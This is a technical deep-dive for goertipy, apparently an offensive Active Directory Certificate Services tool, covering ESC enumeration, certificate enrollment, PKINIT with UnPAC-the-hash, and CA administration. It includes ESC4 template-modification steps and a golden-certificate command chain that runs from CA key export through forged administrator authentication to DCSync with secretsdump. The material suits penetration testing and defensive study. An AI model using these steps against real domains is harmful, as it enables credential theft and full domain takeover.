# Goertipy — Deep Dive

Protocol flows and technical internals for every goertipy command.

---

## `find` — AD CS Enumeration

Enumerates Certificate Authorities and templates via LDAP, detects ESC vulnerabilities.

```mermaid
sequenceDiagram
    participant G as goertipy find
    participant DC as Domain Controller (LDAP)

    G->>DC: LDAP Bind (NTLM/password)
    G->>DC: Query RootDSE → configurationNamingContext
    DC-->>G: CN=Configuration,DC=corp,DC=local

    rect rgb(40, 40, 60)
    note right of G: CA Discovery
    G->>DC: Search CN=Enrollment Services,CN=Public Key Services
    DC-->>G: CA objects (name, hostname, templates, cACertificate)
    end

    rect rgb(40, 60, 40)
    note right of G: Template Enumeration
    G->>DC: Search CN=Certificate Templates,CN=Public Key Services
    DC-->>G: Template objects (flags, EKUs, permissions, schema version)
    end

    rect rgb(60, 40, 40)
    note right of G: Vulnerability Analysis
    G->>G: Parse nTSecurityDescriptor (ACLs)
    G->>G: Check ESC1-4, ESC6-7, ESC9, ESC13, ESC15
    G-->>G: Report vulnerable templates
    end
```

### ESC Detection Logic

| ESC | Condition |
|-----|-----------|
| ESC1 | `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` + Client Auth EKU + low-priv enrollment |
| ESC2 | Any Purpose / no EKU + low-priv enrollment |
| ESC3 | Certificate Request Agent EKU + low-priv enrollment |
| ESC4 | Low-priv user has `WriteDACL`/`WriteOwner`/`WriteProperty` on template |
| ESC6 | `EDITF_ATTRIBUTESUBJECTALTNAME2` flag on CA |
| ESC7 | Low-priv user has `ManageCA` or `ManageCertificates` on CA |
| ESC8 | HTTP enrollment endpoints exposed |
| ESC9 | `CT_FLAG_NO_SECURITY_EXTENSION` + `StrongCertificateBindingEnforcement != 2` |
| ESC13 | Issuance policy + OID group link with low-priv membership |
| ESC15 | Schema v1 + enrollee supplies subject |

### Key LDAP Attributes

| Attribute | Purpose |
|-----------|---------|
| `msPKI-Certificate-Name-Flag` | Controls subject name construction (ESC1 flag) |
| `msPKI-Enrollment-Flag` | Enrollment behavior flags |
| `pKIExtendedKeyUsage` | Allowed EKUs |
| `msPKI-RA-Policies` | Issuance policies (ESC13) |
| `nTSecurityDescriptor` | ACLs for enrollment/modification permissions |
| `msPKI-Template-Schema-Version` | Template schema version (ESC15) |

---

## `req` — Certificate Enrollment

Requests certificates from a CA via 3 transport options.

### Transport Architecture



### RPC Transport (MS-ICPR, default)

Uses EPM (Endpoint Mapper) on port 135 to resolve the ICertPassage dynamic TCP port, then connects directly.



### Named Pipe Transport (--pipe)

Connects via SMB on port 445 to the `\pipe\cert` named pipe. No EPM resolution needed — useful when port 135 is blocked.



### HTTP Transport (--web)

Uses the Certificate Enrollment Web Service (`certsrv`). Supports both HTTP and HTTPS.



### CSR Construction

The CSR is built with proper ASN.1 encoding:

1. **Subject CN** — from `--subject` or derived from username
2. **UPN SAN** (for ESC1) — encoded as `otherName` in SubjectAlternativeName extension
   - OID: `1.3.6.1.4.1.311.20.2.3` (ms-UPN)
   - Encoding: `GeneralName[0] → OtherName { OID, [0] EXPLICIT UTF8String }`
3. **Template attribute** — set via `CertificateTemplate:<name>` request attribute
4. **Key** — RSA 2048-bit by default (configurable with `--key-size`)

---

## `auth` — PKINIT Authentication

Authenticates using a certificate via Kerberos PKINIT, retrieves TGT and NT hash.

```mermaid
sequenceDiagram
    participant G as goertipy auth
    participant KDC as KDC :88

    rect rgb(40, 40, 60)
    note right of G: Phase 1 - PKINIT AS-REQ
    G->>G: Load PFX (cert + private key)
    G->>G: Build AuthPack (DH params + checksum)
    G->>G: Sign AuthPack with cert private key
    G->>KDC: AS-REQ with PA-PK-AS-REQ
    KDC-->>G: AS-REP with PA-PK-AS-REP + TGT (encrypted)
    G->>G: Complete DH key exchange → derive reply key
    G->>G: Decrypt AS-REP → extract TGT + session key
    end

    rect rgb(40, 60, 40)
    note right of G: Phase 2 - UnPAC-the-Hash (U2U)
    G->>KDC: TGS-REQ (U2U + S4U2Self to self)
    KDC-->>G: TGS-REP (ticket encrypted with TGT session key)
    G->>G: Decrypt service ticket
    G->>G: Parse PAC → PAC_CREDENTIAL_INFO → NT hash
    end

    G-->>G: Save TGT as .ccache + print NT hash
```

### How UnPAC-the-Hash Works

1. Request a service ticket **to yourself** using User-to-User (U2U)
2. The KDC encrypts the ticket with your **TGT session key** (which you know)
3. Decrypt the ticket → PAC contains `PAC_CREDENTIAL_INFO`
4. `PAC_CREDENTIAL_INFO` contains the user's **NT hash** encrypted with the AS-REP key
5. Decrypt → plaintext NT hash

### Output

- **`.ccache`** — Kerberos credential cache, use with `KRB5CCNAME=file.ccache`
- **NT hash** — for pass-the-hash (e.g., `secretsdump.py -hashes :HASH`)

---

## `cert show` — Certificate Inspection

Parses PFX or PEM files locally and displays certificate details. No network needed.



### Key Size Detection

For RSA keys, the public key size is extracted via `(*rsa.PublicKey).N.BitLen()` for accurate bit length (not estimated from raw bytes).

---

## `ca backup` — CA Certificate Backup

Fetches the CA's **public certificate** from LDAP's Enrollment Services container.



### What You Get

| Attribute | Field |
|-----------|-------|
| `cACertificate` | CA public certificate (DER) |
| `dNSHostName` | CA server hostname |
| `certificateTemplates` | Published template names |
| `cn` | CA common name |

> **Important**: The CA **private key** is NOT stored in LDAP. It lives in the CA's local machine CNG key store, protected by DPAPI. To extract it, you need local admin access on the CA server (see Golden Certificate chain below).

---

## `template` — ESC4 Template Modification

Exploits dangerous ACL permissions on certificate templates. If a low-privilege user has `WriteProperty`, `WriteDACL`, or `GenericAll` on a template object, the template attributes can be rewritten to make it ESC1-exploitable.

### Attack Flow

```mermaid
sequenceDiagram
    participant G as goertipy template
    participant DC as Domain Controller (LDAP)
    participant FS as Filesystem

    rect rgb(40, 40, 60)
    note right of G: Phase 1 - Backup
    G->>DC: LDAP Bind (NTLM/password)
    G->>DC: Search template by CN
    DC-->>G: Template attributes (flags, EKUs, RA signature)
    G->>FS: Save original config → {template}_backup.json
    end

    rect rgb(60, 40, 40)
    note right of G: Phase 2 - Modify
    G->>DC: LDAP Modify (4 attribute changes)
    note right of DC: Certificate-Name-Flag |= ENROLLEE_SUPPLIES_SUBJECT
    note right of DC: Enrollment-Flag &= ~PEND_ALL_REQUESTS
    note right of DC: RA-Signature = 0
    note right of DC: EKU = Client Authentication
    DC-->>G: Success
    end

    note over G: Template is now ESC1-exploitable

    rect rgb(40, 60, 60)
    note right of G: Phase 3 - Exploit (separate command)
    G->>DC: Request cert with UPN SAN (goertipy req)
    DC-->>G: Signed certificate
    end

    rect rgb(40, 60, 40)
    note right of G: Phase 4 - Restore
    G->>FS: Load backup JSON
    G->>DC: LDAP Modify (restore 4 original attributes)
    DC-->>G: Success
    end
```

### Attributes Modified

| Attribute | Original → Modified | Purpose |
|-----------|---------------------|---------|
| `msPKI-Certificate-Name-Flag` | flags \| `0x1` | Enable `ENROLLEE_SUPPLIES_SUBJECT` — allows specifying any UPN/SAN |
| `msPKI-Enrollment-Flag` | flags & ~`0x2` | Clear `PEND_ALL_REQUESTS` — bypass manager approval |
| `msPKI-RA-Signature` | N → `0` | Remove authorized signature requirement |
| `pKIExtendedKeyUsage` | any → `1.3.6.1.5.5.7.3.2` | Set to Client Authentication for PKINIT |

### Backup Format

The backup JSON preserves exactly the values needed to restore:

```json
{
  "template_name": "Workstation",
  "dn": "CN=Workstation,CN=Certificate Templates,...",
  "timestamp": "2026-02-07T18:48:00Z",
  "msPKI-Certificate-Name-Flag": "134217728",
  "msPKI-Enrollment-Flag": "32",
  "msPKI-RA-Signature": "0",
  "pKIExtendedKeyUsage": ["1.3.6.1.5.5.7.3.2"]
}
```

### Why Templates Can Be Modified via LDAP

Certificate templates are AD objects stored under:

```
CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=...
```

Their attributes (`msPKI-Certificate-Name-Flag`, `pKIExtendedKeyUsage`, etc.) are standard AD attributes writable via LDAP `Modify` operations. The ESC4 vulnerability exists when low-privilege principals are granted `WriteProperty`, `WriteDACL`, or `GenericAll` ACEs on these objects.

---

## `forge` — Golden Certificate Forgery

Signs a certificate as any user using a stolen CA private key.



### Why It Works

1. The KDC validates the certificate by checking the **issuer chain** — if it's signed by a trusted CA, it's accepted
2. The UPN SAN tells the KDC **which user** is authenticating
3. Smart Card Logon + Client Auth EKUs are required for PKINIT
4. The certificate doesn't need to exist in the CA's database — no enrollment record check

### Full Golden Certificate Attack Chain



**Step-by-step with real commands:**

```bash
# 1. Export CA key (requires DA / local admin on CA)
wmiexec.py 'domain/admin:pass@CA-IP' 'certutil -p P@ss -backupKey C:\Windows\Temp\cakey'

# 2. Download via SMB
smbclient.py 'domain/admin:pass@CA-IP'
# use C$ → cd Windows/Temp/cakey → get CA-Name.p12

# 3. Forge
goertipy forge --ca-pfx CA-Name.p12 --ca-pfx-pass P@ss --upn administrator@domain

# 4. Authenticate
goertipy auth -u administrator@domain --dc-ip DC-IP --pfx forged_administrator_domain.pfx
# → [+] NT Hash: ef2abb06bca18700e7a0c02dd5b358aa

# 5. DCSync
secretsdump.py -hashes :ef2abb06bca18700e7a0c02dd5b358aa domain/administrator@DC-IP
```

---

## `ca` — CA Administration (DCOM + RRP)

Manages the CA via DCOM (ICertAdminD/D2) for configuration, revocation, and template management. Falls back to Remote Registry Protocol (RRP) for entries CSRA can't return.

### DCOM Activation Flow

```mermaid
sequenceDiagram
    participant G as goertipy ca
    participant OX as OXID Resolver :135
    participant CA as CA Server (DCOM)

    rect rgb(40, 40, 60)
    note right of G: Phase 1 — DCOM Activation
    G->>OX: ServerAlive2 (discover COM version)
    OX-->>G: COM version 5.7
    G->>OX: RemoteCreateInstance(CLSID d99e6e73-...)
    note right of OX: Activate CertAdmin with both<br/>ICertAdminD + ICertAdminD2 IIDs
    OX-->>G: OXID bindings + per-interface IPIDs
    G->>CA: DCE/RPC Bind to OXID endpoint
    end

    rect rgb(40, 60, 40)
    note right of G: Phase 2 — Config Dump (CSRA)
    G->>CA: ICertAdminD2::GetConfigEntry("CAType")
    CA-->>G: VARIANT(VT_I4, 0) → Enterprise Root CA
    G->>CA: GetConfigEntry("Policy\EditFlags")
    CA-->>G: ERROR_FILE_NOT_FOUND (entry not in CSRA)
    end
```

### RRP Fallback (Remote Registry)

When `GetConfigEntry` returns `ERROR_FILE_NOT_FOUND`, the tool falls back to reading the registry directly via RRP over SMB named pipe.

```mermaid
sequenceDiagram
    participant G as goertipy ca config
    participant SMB as SMB :445

    rect rgb(60, 40, 40)
    note right of G: RRP Fallback
    G->>SMB: SMB Connect + NTLM Auth
    G->>SMB: Open pipe \\pipe\\winreg
    G->>SMB: DCE/RPC Bind (winreg v1.0)
    G->>SMB: OpenLocalMachine → HKLM handle
    G->>SMB: BaseRegOpenKey("SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\CA-Name")
    SMB-->>G: CA config key handle
    G->>SMB: BaseRegOpenKey("PolicyModules\...Default.Policy")
    SMB-->>G: Policy key handle
    G->>SMB: BaseRegQueryValue("EditFlags") → REG_DWORD
    SMB-->>G: 0x11014E (decoded flags)
    G->>SMB: BaseRegQueryValue("RequestDisposition") → REG_DWORD
    SMB-->>G: 1 (Issue/Auto-approve)
    end
```

> [!IMPORTANT]
> The `RRP_UNICODE_STRING` wire format requires null-terminated strings, but go-msrpc's `UnicodeString` marshal doesn't auto-add the terminator. All subkey and value names must have `\x00` appended to the Buffer field, handled by the `rrpStr()` helper.

### Config Value Translation

Raw numeric values are decoded at display time:

| Entry | Raw | Decoded |
|-------|-----|---------|
| `CAType` | `0` | Enterprise Root CA |
| `Policy\EditFlags` | `0x11014E` | `ENABLECHASECLIENTDC \| ENABLEDEFAULTSMIME \| ENABLEAKIKEYID \| ...` |
| `Policy\RequestDisposition` | `1` | Issue (Auto-approve) |

### Template Management (DCOM)



### Certificate Revocation

```bash
goertipy ca revoke --ca 'corp-CA' --serial 0x1234 --reason keyCompromise \
  -u admin -d corp.local --dc-ip 10.0.0.1
```

Uses `ICertAdminD::RevokeCertificate` with the serial number and CRL reason code. Valid reasons: `unspecified`, `keyCompromise`, `caCompromise`, `affiliationChanged`, `superseded`, `cessationOfOperation`.

---

## Protocols and Standards

| Protocol | Spec | Used By |
|----------|------|---------|
| MS-ICPR (ICertPassage) | MS-ICPR | `req` (RPC + pipe) |
| MS-WCCE (Certificate Enrollment) | MS-WCCE | `req` (HTTP) |
| MS-CSRA (ICertAdminD/D2) | MS-CSRA | `ca config`, `ca revoke`, `ca list/enable/disable-template` |
| MS-RRP (Remote Registry) | MS-RRP | `ca config` (fallback for registry entries) |
| DCOM (IRemoteSCMActivator) | MS-DCOM | `ca` admin commands (object activation) |
| LDAP/LDAPS | RFC 4511 | `find`, `ca backup`, `template` |
| Kerberos PKINIT | RFC 4556 | `auth` |
| PKCS#10 (CSR) | RFC 2986 | `req` |
| PKCS#12 (PFX) | RFC 7292 | `cert show`, `forge`, `auth` |
| DCE/RPC | MS-RPCE | `req`, `ca` (all transports) |
| SMB | MS-SMB2 | `req` (pipe), `ca` (RRP fallback) |
